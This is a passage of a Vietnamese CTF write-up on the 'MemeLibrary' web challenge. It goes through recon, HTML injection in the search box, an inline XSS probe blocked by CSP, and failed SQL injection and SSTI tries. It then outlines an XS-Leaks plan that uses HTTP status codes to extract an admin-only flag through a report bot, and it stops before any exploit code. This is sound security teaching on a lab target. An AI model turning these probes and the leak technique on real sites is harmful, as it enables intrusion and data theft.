# MemeLibrary

| Competition | W1 Recruit       |
| ----------- | ---------------- |
| Category    | Web Exploitation |

## Overview

> Challenge cung cấp một ứng dụng thư viện meme cùng file app.jar. Mục tiêu là lấy flag bằng cách khai thác bot đã đăng nhập tài khoản admin thông qua đường dẫn gửi vào `/report`.
>
> Mặc dù có thể decompile `app.jar` để phân tích mã nguồn, trong quá trình giải mình chủ yếu tiếp cận bài theo hướng blackbox vì lúc đó chưa biết về việc decompile file này. Writeup sẽ bám theo quá trình quan sát và thử nghiệm của mình, đồng thời đối chiếu với mã nguồn ở những chỗ cần giải thích rõ cơ chế hoạt động.

## Solution

Challenge này cung cấp attachments gồm 2 files: `Dockerfile`, `app.jar`. Lúc đầu, mình thử mở trực file `app.jar` thì không đọc được gì hết nên tưởng đây là một bài blackbox. Sau đó mình đọc tiếp file `Dockerfile` để hình dung xem challenge này install những package gì, vì nó có thể là gợi ý cho các blackbox challenge.

```dockerfile
FROM eclipse-temurin:21-jdk

ENV SERVER_PORT=8000 \
    FLAG="W1{a1b2c3d4}" \
    BOT_BASE_URL="http://127.0.0.1:8000" \
    ADMIN_USERNAME=admin \
    ADMIN_PASSWORD=admin \
    CHROMEDRIVER_PATH=/usr/local/bin/chromedriver

RUN apt-get update && apt-get install -y --no-install-recommends \
    wget curl unzip ca-certificates tini \
    libnss3 libx11-xcb1 libxcb1 libxcomposite1 libxcursor1 libxdamage1 libxfixes3 libxi6 \
    libxrandr2 libxrender1 libasound2t64 libatk-bridge2.0-0t64 libatk1.0-0t64 libcups2t64 \
    libdrm2 libgbm1 libgtk-3-0t64 libpango-1.0-0 libpangocairo-1.0-0 libxkbcommon0 libxshmfence1 \
    libxss1 libxtst6 fonts-liberation xdg-utils \
    && rm -rf /var/lib/apt/lists/*

RUN mkdir -p /opt/chrome /opt/driver \
 && wget -q -O /tmp/chrome.zip "https://storage.googleapis.com/chrome-for-testing-public/115.0.5763.0/linux64/chrome-linux64.zip" \
 && unzip -o /tmp/chrome.zip -d /opt/chrome \
 && wget -q -O /tmp/driver.zip "https://storage.googleapis.com/chrome-for-testing-public/115.0.5763.0/linux64/chromedriver-linux64.zip" \
 && unzip -o /tmp/driver.zip -d /opt/driver \
 && ln -sf /opt/chrome/chrome-linux64/chrome /usr/local/bin/chrome \
 && ln -sf /opt/driver/chromedriver-linux64/chromedriver /usr/local/bin/chromedriver \
 && rm /tmp/chrome.zip /tmp/driver.zip

WORKDIR /app
COPY app.jar /app/app.jar

EXPOSE 8000
ENTRYPOINT ["tini", "--", "java", "-jar", "/app/app.jar"]
```

Có thể thấy, app này có `BOT_BASE_URL` và có cài đặt các package liên quan tới bot browser, bên cạnh đó còn có tài khoản admin. Từ những dấu hiệu này, mình đặt giả thuyết rằng hướng khai thác sẽ liên quan đến việc tận dụng phiên đăng nhập của bot để lấy flag. Và với kinh nghiệm chơi CTF thì mình đoán 90-95% là bài này là một bài XSS :v

### Recon

Khi làm các bài CTF/pentest, mình thường bắt đầu bằng việc recon - tìm hiểu cách web hoạt động - rồi mới tìm hướng khai thác. Bước này rất quan trọng, đặc biệt khi tiếp cận theo hướng blackbox: do không có thông tin về mã nguồn, càng thu thập được nhiều thông tin về ứng dụng thì mình càng có thêm cơ sở để nghĩ ra các hướng khai thác.

Khởi chạy ứng dụng, ta thấy ở lớp bên ngoài là trang đăng ký/đăng nhập cơ bản.




Điều đầu tiên xuất hiện trong đầu mình là SQL Injection, mình thử một số payload đơn giản như `' OR 1=1 -- ` thì không thấy dấu hiệu bị SQL Injection, tiếp tục thử với công cụ **sqlmap** nhưng vẫn không tìm ra lỗi SQL Injection trên 2 trang này.

Sau đó mình tạm bỏ qua hướng SQLi và đăng ký, đăng nhập như user bình thường.



Dashboard hiện ra với rất nhiều câu meme, cùng với ô input để search meme. Tính năng search meme này có cơ chế hoạt động như sau:



Nó sẽ tìm tất cả các meme có chứa `keyword` không phân biệt hoa thường, ví dụ như ảnh thì với `keyword=Em`, có câu `15. Thế bạn nói xem vì sao mình phải trả lời bạn?` trong meme này `keyword` không đứng độc lập mà nằm trong chữ **xem**.



Nếu không tìm thấy kết quả, ứng dụng sẽ thông báo không tồn tại meme nào chứa keyword đó. Một điểm đáng chú ý là thông báo này còn hiển thị lại cả keyword mình nhập vào. Điều này khiến mình ngay lập tức liên tưởng tới các lỗi injection nếu ứng dụng chưa xử lý input từ người dùng đúng cách trước khi hiển thị. Lúc này, mình cũng để ý rằng username được hiển thị trong lời chào trên dashboard, nên đây cũng là một vị trí đáng kiểm tra.



Cuối cùng là trang `/report`, với ô nhập đường dẫn như hình. Kết hợp với những dấu hiệu về bot trong `Dockerfile`, mình đoán đây là nơi gửi đường dẫn chứa payload để bot truy cập.

### HTML Injection Confirmed, XSS Payload Blocked by CSP

Dựa vào những thông tin mình có sau khi recon, mình quyết định test HTML Injection ở tính năng search meme. Payload mình dùng là:

```html
<i>aa</i>
```

Nếu cụm `aa` được render in nghiêng thì có nghĩa là ứng dụng này bị HTML Injection.



Có thể thấy cụm `aa` được in nghiêng, như vậy là ứng dụng này bị HTML Injection.

Ngay lập tức, mình thử ngay payload XSS đơn giản:

```html
<script>alert(origin)</script>
```



Kết quả là payload không được thực thi. Kiểm tra Console, mình thấy trình duyệt báo inline script bị chặn bởi CSP, đồng thời cho biết script-src không được khai báo nên default-src được dùng làm fallback.

```http
Content-Security-Policy: default-src 'self'; img-src *; style-src 'self' https://stackpath.bootstrapcdn.com/;
```

Đối chiếu với header Content-Security-Policy trong response, cấu hình `default-src 'self'` chỉ cho phép tải JavaScript từ cùng origin với trang hiện tại, tức cùng giao thức, hostname và port. Inline script như `<script>alert(origin)</script>` vẫn bị chặn vì policy không có `'unsafe-inline'`, `nonce` hoặc `hash` cho phép thực thi.

Các cấu hình còn lại gồm `img-src *`, cho phép tải ảnh từ bất kỳ host nào qua HTTP/HTTPS; còn `style-src 'self' https://stackpath.bootstrapcdn.com/` chỉ cho phép tải stylesheet từ cùng origin hoặc từ https://stackpath.bootstrapcdn.com/.

Sau khi tìm hiểu và đọc các cheatsheet về XSS, mình nghĩ đến việc upload một file JavaScript chứa payload lên ứng dụng. Nếu file này được phục vụ tại một URL cùng origin, chẳng hạn /uploads/payload.js, mình có thể tận dụng HTML Injection để chèn `<script src="/uploads/payload.js"></script>`. Khi đó, trình duyệt sẽ tải script từ cùng origin, phù hợp với cấu hình `default-src 'self'`. Tuy nhiên, qua những chức năng đã khảo sát, mình chưa tìm thấy chức năng upload hay cách nào để đưa file JavaScript lên ứng dụng, nên tạm thời chưa thể thử hướng này.

### Alternative Approaches Tried

Sau khi không tìm ra cách nào để XSS được thì bây giờ mình thử một số hướng khác, thứ nhất là HTML Injection ở `username` và thứ hai là SSTI ở chức năng search.



Như vậy là hướng thứ nhất đã không thực hiện được, tiếp theo mình thử 1 số payload SSTI ở tính năng search meme. Mình có dùng Wappalyzer để xem thử framework của app này, thì kết quả mình nhận được là Springboot. Sau đó mình có thử 1 số payload SSTI của Springboot nhưng cũng không thành công.



Tới đây thì mình bí toàn tập, không có thêm được ý tưởng nào cả. Và một điều quan trọng là: **Tới hiện tại, mình chưa biết được flag cần lấy ở đâu**.

### Hints and the XS-Leaks Approach

Sau đó mình được hint về vị trí của flag, đó là flag là một cái meme ẩn mà chỉ có admin mới search được. Mình thử dùng tài khoản admin có sẵn trong `Dockerfile` để kiểm tra.



Như vậy là mình đã xác định được ví trí của flag. Bây giờ trong đầu mình đã dần hình dung được hướng khai thác sẽ có dạng như sau:

1. Tạo ra được payload gì đó ở endpoint `/dashboard?search` để trích xuất dữ liệu từ người truy cập.
2. Gửi link chứa payload cho bot để lấy thông tin.

Vấn đề nằm ở bước 1, hiện tại ngoài HTML Injection thì mình chưa có thêm ý tưởng gì để trích xuất được dữ liệu.

Sau đó mình đọc hint của BTC, đây là XS-Leaks challenge.



Theo [XS-Leaks Wiki](https://xsleaks.dev/):

> XS-Leaks (Cross-Site Leaks) là nhóm kỹ thuật suy luận thông tin nhạy cảm từ một website thông qua các tín hiệu gián tiếp mà trình duyệt để lộ, như thời gian phản hồi hoặc việc tải tài nguyên thành công/thất bại, ngay cả khi Same-Origin Policy ngăn đọc trực tiếp nội dung response.

Như vậy, từ gợi ý của BTC, mình nghĩ đến việc tận dụng những khác biệt có thể quan sát được khi trình duyệt của bot tải trang để suy ra dữ liệu bí mật. Vì flag nằm trong kết quả search của admin, điều mình cần tìm tiếp theo là cách phân biệt một truy vấn có trả về kết quả hay không trong phiên đăng nhập của bot.

### Extracting the Flag with XS-Leaks

#### Building the Exploit Chain

Điều đầu tiên bây giờ là mình cần quan sát lại những tín hiệu nào có thể được tận dụng. Một điểm quan trọng mà mình đã nhận ra là: **HTTP Status của tính năng search meme thay đổi theo trạng thái tìm kiếm.**



Nếu có meme nào chứa `keyword` HTTP Status trả về kết quả là `200` báo thành công.



Ngược lại, nếu không tìm thấy, HTTP Status trả về kết quả là `404`.

Ta có thể tận dụng kết quả này như sau:

- Nếu ta tìm kiếm tiền tố (prefix) của flag mà nó trả về mã `200` thì nghĩa là đó là một tiền tố **đúng**.
- Ngược lại, nếu trả về `404` thì không phải.
- Như vậy, giả sử ta có được một phần tiền tố dạng `W1{` ta có thể thử mọi ký tự để nối vào, ví dụ: `W1{a`, `W1{b` và dựa vào kết quả http status để kiếm tra tính đúng sai của ứng viên này.

Vấn đề ở đây là làm sao để ta nhận được thông tin rằng candidate đó khớp với flag hay không. Vì bot sẽ truy cập vào url chứa payload này chứ không phải là chúng ta, vậy nên ta sẽ không thể biết trực tiếp kết quả thế nào.

